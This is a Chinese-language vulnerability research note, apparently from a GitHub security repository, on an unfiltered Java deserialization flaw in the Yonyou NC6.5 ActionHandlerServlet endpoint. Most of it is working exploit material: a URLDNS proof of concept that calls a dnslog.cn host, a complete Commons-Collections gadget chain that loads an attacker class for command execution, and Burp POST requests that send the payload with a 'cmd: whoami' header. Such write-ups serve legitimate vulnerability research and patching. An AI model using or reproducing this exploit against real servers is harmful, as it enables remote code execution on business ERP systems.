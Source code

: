 # ActionHandlerServlet_Gzip 反序列化

# 0x01 路径

```bash
# URL
/servlet/~aert/com.ufida.zior.console.ActionHandlerServlet

# 物理路径
NC65_Server_home/modules/aert/lib/pubaert_commonLevel-1.jar!/com/ufida/zior/console/ActionHandlerServlet.class
```

# 0x02 漏洞分析
省去在 [用友NC6.5_环境搭建及路由分析](https://github.com/reidmu/sec-note/blob/main/%E6%BC%8F%E6%B4%9E%E7%A0%94%E7%A9%B6/%E7%94%A8%E5%8F%8B/%E7%94%A8%E5%8F%8BNC65/%E7%94%A8%E5%8F%8BNC6.5_%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%8F%8A%E8%B7%AF%E7%94%B1%E5%88%86%E6%9E%90.md#0x03-%E8%B7%AF%E7%94%B1%E5%88%86%E6%9E%90) 中提到的路由解析部分，

进入到 `ActionHandlerServlet.class` 后，不管是 `doPost` 还是 `doGet` 方法，都会调用到 `process` 方法：

![image](https://user-images.githubusercontent.com/84888757/227792401-7afb06ce-1a36-4ca3-a075-d65443aa9541.png)


在 `process` 方法中，对收到的数据先进行 `gzip` 解压然后反序列化，不存在过滤操作，故存在反序列化漏洞。

![image](https://user-images.githubusercontent.com/84888757/227792448-3afa39ac-d851-4e55-8c8d-d45b5170e80c.png)

# 0x03 漏洞验证
使用 `URLDNS` 验证。

生成序列化数据 `1.ser` ，并且 `gzip` 压缩，输出文件 `1.ser.gz`

📒 `ActionHandlerServletGzipPoc.java`
```java
package org.vulhub.nc65;

import java.io.FileOutputStream;
import java.util.zip.GZIPOutputStream;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;


public class ActionHandlerServletGzipPoc {
    public static void main(String[] args) throws Exception {
        HashMap hashMap = new HashMap();
        URL url = new URL("http://123.3pi22q.dnslog.cn");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, 0);
        hashMap.put(url, "111");
        f.set(url, -1);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("1.ser"));
        oos.writeObject(hashMap);
        oos.close();

        FileInputStream inputFromFile = new FileInputStream("1.ser");
        byte[] bs = new byte[inputFromFile.available()];
        inputFromFile.read(bs);
        GZIPOutputStream gzip = new GZIPOutputStream(new FileOutputStream("1.ser.gz"));
        gzip.write(bs);
        gzip.close();
    }
}
```

burp -> Paste from file -> 粘贴 `1.ser.gz` 作为 Post data

```bash
POST /servlet/~aert/com.ufida.zior.console.ActionHandlerServlet HTTP/1.1
Host: 192.168.50.13:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.3820.170 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 249

Post data
```

![image](https://user-images.githubusercontent.com/84888757/227792533-f3510645-4ccb-4fdc-87e6-674332dcca05.png)

<div align=center><img src="https://user-images.githubusercontent.com/84888757/227792538-2dd07e82-1f89-4bd1-ad74-679868edd6d6.png" width="700" height="420" /></div>

# 0x04 漏洞利用

写个回显 `payload` 如下：

📒 `ActionHandlerServletGzipExp.java`
```java
package org.vulhub.nc65;

import com.sun.xml.internal.ws.policy.privateutil.PolicyUtils;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import org.mozilla.javascript.DefiningClassLoader;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;
import java.util.zip.GZIPOutputStream;

import static org.vulhub.nc65.ClassLoaderMain.getBytesByFile;

public class ActionHandlerServletGzipExp {
    public static void main(String[] args) throws Exception{

        byte[] bs = getBytesByFile("/Users/devil/Codes/java/vulhub/src/main/java/org/vulhub/nc65/dfs.class");

        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
//        DefiningClassLoader

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(DefiningClassLoader.class),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
                new InvokerTransformer("defineClass",
                        new Class[]{String.class, byte[].class}, new Object[]{"org.vulhub.nc65.dfs", bs}),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"main", new Class[]{String[].class}}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{null}}),
                new ConstantTransformer(1),
        };
        //先传入一个人畜无害的fakeTransformers对象，避免本地调试时出发命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        // 创建一个map，不用添加Entry
        Map innerMap = new HashMap();

        // 调用LazyMap.decorate实例化LazyMap
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");


        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");

        // ==================
        //将真正的transformers数组设置进来
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        // 序列化数据并写入文件
        serialize(expMap);
        // 从文件读取数据进行反序列化
//        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("./ActionHandlerSer.bin");
        ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
        outputStream.writeObject(obj);
        outputStream.close();
        fileOutputStream.close();

        FileInputStream inputFromFile = new FileInputStream("./ActionHandlerSer.bin");
        byte[] bs = new byte[inputFromFile.available()];
        inputFromFile.read(bs);
        GZIPOutputStream gzip = new GZIPOutputStream(new FileOutputStream("./ActionHandlerSer.bin.gz"));
        gzip.write(bs);
        gzip.close();
//        System.out.println();
    }

    public static void unserialize(String args) throws IOException, ClassNotFoundException {
        FileInputStream fileInputStream = new FileInputStream(args);
        ObjectInputStream ois = new ObjectInputStream(fileInputStream);

//        ois.readObject();
        System.out.println( ois.readObject());
    }
}

```

burp -> Paste from file -> 粘贴 `ActionHandlerSer.bin.gz` 作为 Post data

```
POST /servlet/~aert/com.ufida.zior.console.ActionHandlerServlet HTTP/1.1
Host: 192.168.50.13:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.3820.170 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
cmd: whoami
Content-Length: 2327

Post data
```

![image](https://user-images.githubusercontent.com/84888757/227792646-2eb5ef9a-0d25-41a4-9c8a-95420026a63d.png)

# 0x05 参考链接
- https://cn-sec.com/archives/786526.html
- [用友NC65反序列化回显利用](https://github.com/reidmu/sec-note/blob/main/%E6%BC%8F%E6%B4%9E%E7%A0%94%E7%A9%B6/%E7%94%A8%E5%8F%8B/%E7%94%A8%E5%8F%8BNC65/%E7%94%A8%E5%8F%8BNC65%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9B%9E%E6%98%BE%E5%88%A9%E7%94%A8.md)
